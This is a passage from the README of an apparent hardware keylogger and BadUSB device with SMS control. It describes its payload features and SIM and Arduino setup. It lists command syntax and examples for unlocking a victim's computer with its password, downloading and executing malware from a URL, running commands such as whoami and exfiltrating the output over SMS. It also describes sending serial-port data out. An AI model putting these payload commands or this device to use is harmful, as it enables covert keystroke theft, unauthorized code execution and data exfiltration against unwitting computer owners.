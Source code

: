4. Badusb feature with pre-installed, user defined, or SMS sent payloads.
   - This feature is independant and doesn't need a keyboard connected to the keylogger.
   - It includes a autorun payload option (AUTORUN in globals.h).
   
```
UnlockDownload##os##password##url    // Unlock the computer to download and execute malware
		[os: lnx, win, osx, winlnx, multi]
			Ex: UnlockDownload##lnx##password##url
		
UnlockRunAndExfil##os##password##command  // Unlock the computer to download and execute malware
		Ex: UnlockRunAndExfil##lnx##password##whoami
		
Manual##Action##Argument
		[Action=press,print,delay,release]
			Example: +CMT: Manuall##press##83 72 (in hex)
```

			
5. Automatic keyboard language layout gathering. This is a full new feature developped by Yago Hansen and is under testing now.

6. Serial port exfiltration feature: 
	- Every data or command output sent to the populated serial port on the destination system (/dev/tty... in Linux or COM port on Windows) will be sent to the running code and later to the SMS configured.

>**Warning (Note from the manufacturers): Only connect the keyboard after the KEYVILBOARD has been inserted into the USB port for a few seconds. Otherwise the keyboard and KEYVILBOARD WILL NOT work. This is due to a capacitor on the board that was added for stability. In my case, there wasn't any need of doing that, since it worked with my cabled keyboard, even if connecting it together.**


## Configuration
1. SIM Setup

* SIM Lock remove

     Make sure your remove the simlock from the simcard you intent to use in Module. Insert it in a phone/smartphone. Go to security menu and remove PIN inserting the actual one first.
  
* SIM Advice
  
     I reccomend you to take a unlimited texting subscription these will cost about 7-8 euro's a month monthly cancelable keep in mind these are trackable so dont be doing anything illigal with our modules.

* SIM Orientation

	![Look at the SIM corner](/extras/IMG_20190716_192137.jpg)
  

2. KEYVILBOARD Setup

* Arduino IDE
     
     The included code works with the arduino Leonardo bootloader. Make sure you download the Arduino IDE and you have a simple understand of how it works.
      